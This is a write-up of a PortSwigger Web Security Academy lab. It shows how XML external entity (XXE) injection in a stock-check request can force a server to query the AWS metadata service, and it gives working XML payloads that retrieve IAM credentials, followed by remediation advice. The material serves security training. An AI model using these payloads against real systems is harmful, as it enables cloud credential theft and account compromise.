





# XML External Entity (XXE) Injection

**Lab:** Exploiting XXE to perform SSRF attacks (Web Security Academy)

**Level:** Apprentice

---

## Vulnerability Overview

XXE injection can do more than read local files - external entities can reference HTTP URLs, turning the XML parser into an unwitting HTTP client. This creates **XXE-based SSRF**: the attacker uses XXE to force the server to make HTTP requests to internal services that are unreachable from the outside.

In this lab, an external entity targets the AWS EC2 instance metadata service at `169.254.169.254` - a link-local address accessible only from within the cloud instance. The metadata service exposes temporary IAM credentials, which an attacker with XXE access can exfiltrate in a single request.

---

## Steps to Solve the Lab

1. **Identify the XML endpoint**
   - Click **Check stock** on a product.

     

   - Intercept the `POST /product/stock` request and send it to **Repeater**.

     

   - The body is XML with `<productId>` and `<storeId>` elements.

2. **Define an external entity pointing to the metadata service**
   - Modify the XML to probe the AWS metadata endpoint:
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE test [
       <!ENTITY xxe SYSTEM "http://169.254.169.254/">
     ]>
     <stockCheck>
       <productId>&xxe;</productId>
       <storeId>1</storeId>
     </stockCheck>
     ```
   - Send the request. The response reflects the metadata API's top-level directory listing (e.g., `latest`).

     

3. **Navigate to the IAM credentials endpoint**
   - Refine the URL to target the credentials path:
     ```xml
     <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">
     ```
   - Send again. The response now contains temporary AWS credentials in JSON:
     ```json
     {
       "Code": "Success",
       "AccessKeyId": "ASIA...",
       "SecretAccessKey": "...",
       "Token": "...",
       "Expiration": "..."
     }
     ```

     

4. **Result**
   - Successfully reading the IAM credentials confirms XXE-based SSRF. The lab status changes to **Solved**.

     

---

## Why This Works

The XXE entity resolution uses the same HTTP stack as the application - the same network stack that has access to the link-local metadata service. `169.254.169.254` is not routable from the public internet, but it is reachable from within any EC2 instance. The XML parser makes the HTTP request on the application's behalf and returns the response body as the entity value.

This is the same pattern used in real-world attacks against cloud environments: XXE leads to SSRF against the metadata service, which leads to credential theft, which can lead to full AWS account compromise.

---

## Remediation

- **Disable external entity and DTD processing** - the same fix as for file-based XXE:
  ```java
  factory.setFeature("http://xml.org/sax/features/external-general-entities", false);
  factory.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
  factory.setFeature("http://apache.org/xml/features/nonvalidating/load-external-dtd", false);
  ```
- **Use IMDSv2 (Instance Metadata Service v2)** - AWS's IMDSv2 requires a session token obtained via a PUT request with a custom header, which most simple SSRF techniques (including this XXE) cannot replicate. This is the primary, AWS-recommended mitigation for metadata-service SSRF and can be enforced account-wide.
- **Block access to the metadata service with a host-based firewall** - note that VPC security groups cannot filter traffic to `169.254.169.254`, since it is a link-local address handled by the instance's own network stack rather than routed VPC traffic. Use `iptables` (or an equivalent host firewall) on the instance, or a network proxy, to restrict which local processes may reach it.
- **Apply least privilege to the IAM role attached to the instance** - even if metadata access succeeds, a tightly scoped role limits what the stolen credentials can do.

---

Link: https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf
